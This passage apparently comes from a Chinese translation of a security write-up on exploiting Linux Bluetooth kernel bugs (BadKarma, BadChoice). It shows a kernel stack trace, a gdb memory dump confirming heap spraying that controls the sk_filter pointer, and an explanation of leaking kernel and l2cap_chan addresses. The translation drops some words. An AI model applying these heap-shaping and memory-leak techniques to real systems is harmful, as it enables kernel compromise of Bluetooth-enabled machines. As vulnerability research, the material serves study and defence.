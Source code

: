 ```
[   58.882124]  l2cap_recv_acldata+0x2d2/0x2e0 [bluetooth]
[   58.882174]  hci_rx_work+0x186/0x360 [bluetooth]
[   58.882187]  process_one_work+0x1eb/0x3b0
[   58.882197]  worker_thread+0x4d/0x400
[   58.882207]  kthread+0x104/0x140
[   58.882215]  ? process_one_work+0x3b0/0x3b0
[   58.882223]  ? kthread_park+0x90/0x90
[   58.882233]  ret_from_fork+0x35/0x40
```  
  
检查受害者机器的RDI处的内存地址，我们可以看到：  
```
$ sudo gdb /boot/vmlinuz /proc/kcore
(gdb) x/40gx 0xffff96da38f70300
0xffff96da38f70300:  0xffff96da601e7d00  0xffffffffc0d38760
0xffff96da38f70310:  0xffff96da60de2600  0xffff96da61c13400
0xffff96da38f70320:  0x0000000000000000  0x0000000000000001
0xffff96da38f70330:  0x0000000000000000  0x0000000000000000
0xffff96da38f70340:  0xffff96da38f70340  0xffff96da38f70340
0xffff96da38f70350:  0x0000000000000000  0x0000000000000000
0xffff96da38f70360:  0xffff96da38f70360  0xffff96da38f70360
0xffff96da38f70370:  0x0000000000000000  0x0000000000000000
0xffff96da38f70380:  0xffffffffffffffff  0xffffffffffffffff
0xffff96da38f70390:  0xffffffffffffffff  0xffffffffffffffff
0xffff96da38f703a0:  0xffffffffffffffff  0xffffffffffffffff
0xffff96da38f703b0:  0xffffffffffffffff  0xffffffffffffffff
0xffff96da38f703c0:  0xffffffffffffffff  0xffffffffffffffff
0xffff96da38f703d0:  0xffffffffffffffff  0xffffffffffffffff
0xffff96da38f703e0:  0xffffffffffffffff  0xffffffffffffffff
0xffff96da38f703f0:  0xffffffffffffffff  0xffffffffffffffff
0xffff96da38f70400:  0x4141414141414141  0x4242424242424242
0xffff96da38f70410:  0x4343434343434343  0x4444444444444444
0xffff96da38f70420:  0x4545454545454545  0x4646464646464646
0xffff96da38f70430:  0x4747474747474747  0x4848484848484848
```  
  
处的值0xffff96da38f70410  
表明sk_filter()  
确实试图取消引用我们喷射的偏移量为 0x10 的指针，从 的角度来看struct amp_mgr  
，该指针的偏移量为 0x110。Bingo！  
### 泄漏内存布局  
  
现在，我们有了一种方法，可以塑造堆并为BadKarma  
攻击做好准备，从而完全控制指针sk_filter  
。问题是，我们应该将它指向哪里？为了使该原语有用，我们必须将其指向我们可以控制其内容的内存地址。这就是BadChoice  
漏洞发挥作用的地方。此漏洞有可能泄露内存布局，并帮助我们实现控制我们也知道其地址的内存块的目标。  
  
如前所述，为了利用未初始化堆栈变量错误，我们必须首先发送一些不同的命令，用有趣的数据（例如指向堆的指针或与 ROP 链相关的 .text 段）填充堆栈框架。然后，我们可以发送易受攻击的命令来接收该数据。  
  
通过尝试一些随机的 L2CAP 命令，我们可以观察到，通过触发 BadChoice 而不事先使用任何特殊命令，可以泄露指向内核映像的 .text 段指针。此外，通过发送L2CAP_CONF_RSP  
并尝试预先将 A2MP 通道重新配置为L2CAP_MODE_ERTM  
，可以泄露偏移量为 0x110 的对象的地址struct l2cap_chan  
。该对象的大小为 792 字节，分配在 kmalloc-1024 slab 中。  
```
// pahole -E -C l2cap_chan --hex bluetooth.ko
struct l2cap_chan {
  ...
  struct delayed_work {
    struct work_struct {
      /* typedef atomic_long_t -> atomic64_t */ struct {
        /* typedef s64 -> __s64 */ long long int counter;        /* 0x110   0x8 */
      } data; /* 0x110   0x8 */
      ...
    } work; /* 0x110  0x20 */
```
